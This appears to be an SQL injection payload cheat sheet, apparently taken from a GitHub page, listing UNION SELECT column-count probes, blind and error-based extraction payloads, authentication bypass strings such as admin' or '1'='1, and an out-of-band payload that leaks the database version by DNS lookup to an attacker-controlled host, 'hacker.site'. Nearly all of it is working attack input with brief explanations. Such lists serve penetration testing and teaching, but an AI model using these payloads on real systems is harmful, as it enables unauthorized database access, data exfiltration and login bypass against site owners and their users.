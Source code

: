 ```
UNION ALL SELECT 1,2,3,4,5,6,7,8-- 
UNION ALL SELECT 1,2,3,4,5,6,7,8,9--
UNION ALL SELECT 1,2,3,4,5,6,7,8,9,10--
UNION ALL SELECT 'INJ'||'ECT'||'XXX'
UNION ALL SELECT 'INJ'||'ECT'||'XXX',2
UNION ALL SELECT 'INJ'||'ECT'||'XXX',2,3
UNION ALL SELECT 'INJ'||'ECT'||'XXX',2,3,4
UNION ALL SELECT 'INJ'||'ECT'||'XXX',2,3,4,5
UNION ALL SELECT 'INJ'||'ECT'||'XXX',2,3,4,5,6
UNION ALL SELECT 'INJ'||'ECT'||'XXX',2,3,4,5,6,7
UNION ALL SELECT 'INJ'||'ECT'||'XXX',2,3,4,5,6,7,8
UNION ALL SELECT 'INJ'||'ECT'||'XXX',2,3,4,5,6,7,8,9
UNION ALL SELECT 'INJ'||'ECT'||'XXX',2,3,4,5,6,7,8,9,10
UNION ALL SELECT 'INJ'||'ECT'||'XXX',2-- 
UNION ALL SELECT 'INJ'||'ECT'||'XXX',2,3-- 
UNION ALL SELECT 'INJ'||'ECT'||'XXX',2,3,4-- 
UNION ALL SELECT 'INJ'||'ECT'||'XXX',2,3,4,5-- 
UNION ALL SELECT 'INJ'||'ECT'||'XXX',2,3,4,5,6-- 
UNION ALL SELECT 'INJ'||'ECT'||'XXX',2,3,4,5,6,7-- 
UNION ALL SELECT 'INJ'||'ECT'||'XXX',2,3,4,5,6,7,8-- 
UNION ALL SELECT 'INJ'||'ECT'||'XXX',2,3,4,5,6,7,8,9-- 
UNION ALL SELECT 'INJ'||'ECT'||'XXX',2,3,4,5,6,7,8,9,10--
UNION ALL SELECT 'INJ'||'ECT'||'XXX',2-- 
UNION ALL SELECT 'INJ'||'ECT'||'XXX',2,3-- 
UNION ALL SELECT 'INJ'||'ECT'||'XXX',2,3,4-- 
UNION ALL SELECT 'INJ'||'ECT'||'XXX',2,3,4,5-- 
UNION ALL SELECT 'INJ'||'ECT'||'XXX',2,3,4,5,6-- 
UNION ALL SELECT 'INJ'||'ECT'||'XXX',2,3,4,5,6,7-- 
UNION ALL SELECT 'INJ'||'ECT'||'XXX',2,3,4,5,6,7,8-- 
UNION ALL SELECT 'INJ'||'ECT'||'XXX',2,3,4,5,6,7,8,9-- 
UNION ALL SELECT 'INJ'||'ECT'||'XXX',2,3,4,5,6,7,8,9,10--
```
#Blind SQL Injections Payloads :

In the case of Blind SQL injection, you can’t see the results of the query nor the errors, but you can distinguish when the query returned a true or a false response based on the different content on the page.

You can abuse that behaviour to dump the database char by char :

```?id=1 AND SELECT SUBSTR(table_name,1,1) FROM information_schema.tables = 'A'```

#Error Blind SQL Injection Payloads :

As the name implies, this is very similar to Blind SQL injection, but this time you don’t have to distinguish between a true or false response. You check if there is an error in the SQL query or not, by forcing an SQL error each time you correctly guess the char :

```AND (SELECT IF(1,(SELECT table_name FROM information_schema.tables),'a'))-- - ```

#Out of band SQLi Payloads :

If none of the exploitation methods mentioned above worked for you, you can try to make the database exfiltrate the data to an external host controlled by you. For example, you can use DNS queries :

```select load_file(concat('\\\\',version(),'.hacker.site\\a.txt'));```

# Auth Bypass Payloads :
```
admin' --
admin' #
admin'/*
admin' or '1'='1
admin' or '1'='1'--
admin' or '1'='1'#